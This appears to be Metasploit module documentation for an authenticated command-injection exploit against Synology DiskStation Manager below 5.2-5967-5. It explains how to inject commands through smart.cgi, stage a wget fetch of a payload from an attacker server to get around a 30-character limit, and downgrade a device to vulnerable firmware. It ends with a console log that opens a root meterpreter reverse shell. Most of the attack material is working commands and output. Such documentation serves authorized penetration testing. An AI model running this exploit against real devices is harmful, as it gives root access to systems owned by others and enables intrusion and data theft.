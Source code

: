 ## Vulnerable Application

This module exploits a vulnerability found in Synology DiskStation Manager (DSM)
versions < 5.2-5967-5, which allows the execution of arbitrary commands under root
privileges after website authentication.

The vulnerability is located in `webman/modules/StorageManager/smart.cgi`, which
allows appending of a command to the device to be scanned.  However, the command
with drive is limited to 30 characters.  A somewhat valid drive name is required,
thus /dev/sd is used, even though it doesn't exist.  To circumvent the character
restriction, a wget input file is staged in /a, and executed to download our payload
to /b.  From there the payload is executed.  A wfsdelay is required to give time
for the payload to download, and the execution of it to run.

A more detailed explination of exploitation steps:

1. We first clean the env by deleting `/a`, and `b`
2. we use `echo -n` to append our IP:PORT for our staging server to `/a`.  This is
done in small chunks to stay under the character limit.
3. we call `wget -i /a -O b` to write our payload to `b` in `/usr/syno/synoman/webman/modules/StorageManager`
4. we wait for HTTP Server to receive the `wget` request and send back the payload.  Then we execute it.

### Notes

`smart.cgi` and our payload are located in `/usr/syno/synoman/webman/modules/StorageManager`.

`/var/log/messages` will contain logs of exploitation:

```
May 19 16:35:50 oldNas smart.cgi: smart.cpp:477 smartctl system command failed cmd: /usr/syno/bin/smartctl -d sat -t short /dev/sd`wget -i /a -O b` > /dev/null 2>&1 ret: 4
May 19 16:35:50 oldNas smart.cgi: smart.cpp:846 error
```

No randomization was chosen on the `a` and `b` file names since we're so limited on characters as it is.
While it would be possible to randomize a single character, it didn't seem worth the effort.

### Device Downgrade

The vulnerable DSM can be downloaded from [Synology](https://archive.synology.com/download/DSM/release/5.2/5644/)

Essentially Synology doesn't want you to downgrade. In order to do so, we need to mount the recovery boot loader
and overwrite it with synology 5.2.  Then when we cause an issue (by removing the disks on boot), it will boot
to the recovery.  Since the recovery is 5.2, it will let us install the 'current' version of 5.2.

You'll want to watch [Downgrade DSM6.x to DSM 5.2](https://youtube.com/watch?v=DFtOmEv63n4)

The notes from the video are:

1. Turn on synology and backup data if needed.
2. Create a shared folder. ("test" is used in this guide)
3. Locally, extract 4 files from DSM 5644.pat (grub_cksum.syno, rd.gz, zImage, checksum.syno)
and place the files in the newly created shared folder on the NAS.
4. Enable telnet/ssh in the DSM control panel.
5. telnet/ssh to the diskstation.
6. Log in as admin.
7. Type `sudo su`. The password it asks for will also be the admins password.
8. Type `cd /dev` to change to the devices directory.
9. Type `ls synoboot2` to make sure synoboot2 is listed.
10. Type `mkdir /mnt/synoboot` to make a directory to mount to.
11. Type `mount synoboot2 /mnt/synoboot` to mount the boot files to the directory we created.
12. Type `cd /mnt/synoboot` to change to that directory.
13. Type `ls` to view the files in the directory.
(note that the names of the 4 files we put in the shared folder, should be there.
Although these ones listed are the DSM6 versions)
14. Type `cp /volume1/test/checksum.syno /mnt/synoboot`.
15. Type `cp /volume1/test/grub_cksum.syno /mnt/synoboot`.
16. Type `cp /volume1/test/rd.gz /mnt/synoboot`.
17. Type `cp /volume1/test/zImage /mnt/synoboot`.
18. Go back into the DSM interface and shutdown. Once the device is shutdown, remove the disks.
(This step is important because if you do not remove the disks,
the next powerup will detect an issue and recover the DSM6 boot image)
19. Power the device up. Should say no disks inserted.
Before clicking the connect again button, put the hard disks back in and wait for the HDD LED's to light up.
20. If disks are in, click the connect again button.
Next page should come up saying to reinstall DSM.
Make sure to choose the 5967 pat file so that the bootimage is overwritten correctly.
21. Good to go! Data should remain intact as long as it is in a shared folder,
and DSM should be a completely stock 5.2 - 5967.

## Verification Steps

  1. Install the 5.2 vulnerable DSM
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/synology_dsm_smart_exec_auth```
  4. Do: ```set username <username>```
  5. Do: ```set password <password>```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for website login.  Default is `password`.

### Username

Username for website login.  Default is `admin`.

### wfsdelay

Wfsdelay needs to be at least a couple seconds to allow for payload download and staging.  Default is `10`.

## Scenarios

### DS412+ with DSM 5.2-5644

  ```
  [*] Processing synology.rc for ERB directives.
  resource (synology.rc)> use modules/exploits/linux/http/synology_dsm_smart_exec_auth
  resource (synology.rc)> set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  resource (synology.rc)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (synology.rc)> set lport 60111
  lport => 60111
  resource (synology.rc)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (synology.rc)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (synology.rc)> set username admin
  username => admin
  resource (synology.rc)> set password password
  password => password
  resource (synology.rc)> set verbose true
  verbose => true
  resource (synology.rc)> rexploit
  [*] Reloading module...
  [*] Started reverse TCP handler on 1.1.1.1:60111 
  [*] Trying to detect installed version
  [*] Model DS412+ with version 5.2-5644 detected
  [*] Attempting Login
  [*] Using URL: http://1.1.1.1:8080/
  [*] Cleaning env
  [*] Staging wget with: echo -n '1.1'>>/a
  [*] Staging wget with: echo -n '.1.1:'>>/a
  [*] Staging wget with: echo -n '8080'>>/a
  [*] Requesting payload pull
  [+] HTTP Server request received, sending payload
  [*] Executing payload
  [*] Sending stage (53755 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:60111 -> 2.2.2.2:42353) at 2020-05-19 20:13:33 -0400
  [*] Server stopped.
  [!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
  [!] This exploit may require manual cleanup of '/a' on the target

  meterpreter > 
  [+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
  [+] Deleted /a

  meterpreter > getuid
  Server username: root
  meterpreter > sysinfo
  Computer     : oldNas
  OS           : Linux 3.10.35 #5644 SMP Thu Nov 12 17:18:22 CST 2015
  Architecture : x64
  Meterpreter  : python/linux
  meterpreter > cat /etc.defaults/VERSION
  majorversion="5"
  minorversion="2"
  buildphase="hotfix"
  buildnumber="5644"
  smallfixnumber="0"
  builddate="2015/11/12"
  buildtime="17:17:21"
  meterpreter >  ```

